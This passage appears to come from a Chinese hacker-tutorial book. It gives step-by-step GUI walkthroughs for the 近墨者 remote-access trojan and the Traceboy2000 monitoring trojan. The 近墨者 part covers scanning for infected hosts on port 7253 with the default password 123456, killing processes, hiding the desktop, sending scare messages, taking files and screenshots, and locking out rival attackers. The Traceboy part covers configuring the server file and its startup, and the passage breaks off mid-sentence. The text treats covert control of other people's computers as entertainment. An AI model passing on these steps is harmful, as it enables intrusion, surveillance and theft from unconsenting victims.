文件之后，同时也神不知鬼不觉地执行了近墨者的服务端程序（友情提醒：对于非好友发送过来的任何文件、程序，都不可以轻易相信而执行）。为了看清近墨者木马的危害，想想反正也中了它的阴谋诡计，还不如索性来看看该木马到底有多么厉害！



图1-5-1

#### 二、探个究竟

打开客户端文件夹，双击其中的 Clients.exe 文件，启动近墨者客户端程序（如图1-5-2）。下面我们就以此来了解一下该木马的详细使用。

#### 三、寻找受害者

执行了近墨者木马服务端程序（也就是“来去无踪”）之后，会自动开放 7253 端口，因此我们只需要在客户端程序右侧的远程 IP 起点和终点中设置要扫描的 IP 地址段，并且将开始端口和结束端口都设置为 7253，然后按下“开始”按钮。如果在该 IP 地址段中有机器开了 7253 端口，那么很快就会寻找到相应的 IP 地址。当然，如果你能够通过其他方式知道中了近墨者木马的机器 IP 地址，就可以省去查找的步骤。找到相应的 IP 地址之后就好办了，点击客户端程序主界面最上方的两台小电脑表示的连接图标，打开连接对话框（如图1-5-3），输入查找到的 IP 地址，并且输入默认连接的密码“123456”，然后按下“连接”按钮。这样，客户端程序上的按钮都改变了原有的灰化状态，变成了可用。





图1-5-2

图1-5-3

命令：点击客户端工具栏上的命令按钮，我们发现在该状态下包含了很多对服务端的操作命令（如图1-5-4）。



图1-5-4

如果想让对方的浏览器打开指定的网页，那么只需要在地址栏中输入网址，然后按下“打开浏览器”按钮，对方就会自动调用默认的浏览器来浏览该网页了。想吓唬对方一下吗？没关系，在发送消息上方输入要吓唬的话，例如“你的机器已感染病毒，立即将计算机重新启动10次，方可保证你的计算机不被侵害”，再按下“发送消息”按钮，这样，对方的计算机就会收到一条错误消息对话框（如图1-5-5），客户端同样会提示用户成功。是不是很有趣啊？



图1-5-5

想看看对方的机器正在执行哪些程序吗？很简单，按下“进程管理”按钮，在打开的服务端进程管理窗口中按下“刷新”按钮，这样就可以查看正在运行的进程了；如果想关闭其中的某个进程，只需要选中该进程，然后按下“结束进程”按钮就可以了（如图1-5-6）。这样的操作会让服务端操作电脑的人以为电脑出错呢！除此之外，我们还可以隐藏用户端的“开始”按钮（如图1-5-7）、任务栏、桌面等，而这些只需要按下相应的按钮就可以了；要解除隐藏也很简单，再次按下相应的按钮即可。





图1-5-6

图1-5-7

如果想让服务端重新启动或者关闭对方的计算机的话，也很简单，只需要执行“重启服务端”或“关闭服务端”按钮命令即可。在这里还有一个比较重要的功能就是更改密码，因为我们辛辛苦苦找到的中了服务端程序的机器可不能被别人占用。点击“更改密码”按钮，打开如图1-5-7所示的密码更改对话框，在这里输入服务端的 IP 地址之后，就可进行密码的更改了。

磁盘：到现在我们还没有看到服务端的机器里到底有哪些好东西呢。不要紧张，这一切只需要按下“磁盘”按钮即可查看（如图1-5-8）。我们只需要在地址栏中输入相应的盘符，就可以查看该目录下的文件和文件夹了。



图1-5-8

如果你想对这些文件进行操作，那么只需要将之选中，然后按下右键，就可以从弹出的菜单中看到很多命令：复制、运行、下载等。通过这些命令，你还有什么不能干呢？

目标：如果想向对方的剪贴板中添加一些内容，在目标命令中即可实现。加入的过程比较简单，在这里就不介绍了，否则被老编认为诈骗稿费，那可就惨了：）

信息：这也很简单，按下“信息”按钮（如图1-5-9），在打开的主界面上点击“刷新信息”，这样就可以显示服务端机器用户名、日期、剪贴板等内容了。

共享：干到这里，是不是觉得应该给服务端上留点什么啊？那就点击共享按钮（如图1-5-10），先来判断一下安装的是什么操作系统，点击“判断系统”按钮，这样就会显示出服务端当前运行的操作系统版本。





图1-5-9

图1-5-10

比较遗憾的是，如果服务端的操作系统不是 Windows98，则不能运行共享命令；如果是 Windows98，我们只需要选中相应的盘符，然后按下“设置共享”就可以了；如果想打开该共享的话，也只需要按下“打开共享”按钮，就是这样简单。最后我们来看看服务端当前屏幕上有哪些内容吧，依次点击下方的“截屏”、“保存”按钮，然后通过磁盘命令来下载 C 盘下的名为 system.stu 的文件，将扩展名改为 BMP，这样显示的图片就是当前屏幕的内容了。

哈哈，我在文章开头所说的近墨者“黑”没有假吧？只要你沾上了“墨”，那么你就被“黑”了！

### 1.6 你被跟踪了吗

爱好黑客技术的朋友们对各种木马软件应该不陌生，今天我们要向大家介绍的就是一款在功能和使用上都值得一试的木马软件，通过它可以记录计算机操作的任何举动，它就是 Traceboy2000（跟踪者）。

我们下载该软件，将之释放到一个文件夹之后，我们发现这里面一共包含了 3 个文件：Traceboy2000.exe 木马服务端程序、Traceboyset.exe 木马客户端配置程序和 Traceboy.chm 帮助文件。下面我们就来看看该程序是如何工作的。

#### 一、客户端配置

要想使我们的跟踪者为我们很好地服务，就必须在运行之前对之进行必要的配置。双击 Traceboyset.exe 文件，打开如图1-6-1所示的程序配置向导。

配置对象：首先进行的是配置向导。在默认情况下，程序已经添加好跟踪者服务端程序所在位置，当然，如果添加有误的话，我们自己也可以按下后面的“浏览”按钮来手工选择跟踪者服务端程序，即 Traceboy2000.exe 所在位置。添加好服务端程序之后仍然不能进行下面的配置，因为出于保密的考虑，我们必须输入密码才可真正进行服务端程序的配置。在跟踪者登录口令处输入默认密码 888，按下后面的“进入配置状态”按钮，这个时候才能进行真正的配置。如果想为我们的服务端程序重新命名，只需要在“更改跟踪者文件名”里输入新的文件名称即可。

运行配置：当服务端执行了经过我们配置后的文件，又会以何种方式来启动运行呢？这就需要在运行配置中完成了，在左侧选择“运行配置”项（如图1-6-2）。在这里，跟踪者一共为我们提供了两种启动方式。



图1-6-1



图1-6-2

当然都把它们选中了，这样就可以尽最大可能获取服务端的资料！激活时，配置项主要是为了方便检查所用，首先设置启动热键，在默认情况下激活热键是 Ctrl+F12，我们必须将其改为其他内容；对于登录口令，当然把它修改掉了，因为默认的口令大家都知道。当然，如果你不想让对方激活服务端程序，那么就可以选中“禁止软件激活”选项。在这里还有一项比较实用的配置，那就是运行时间配置。选中“启用时间限制功能”然后设置一个时间分数，这样，在软件运行了指定时间后将会自动关闭服务端程序。例如我们将时间设置为 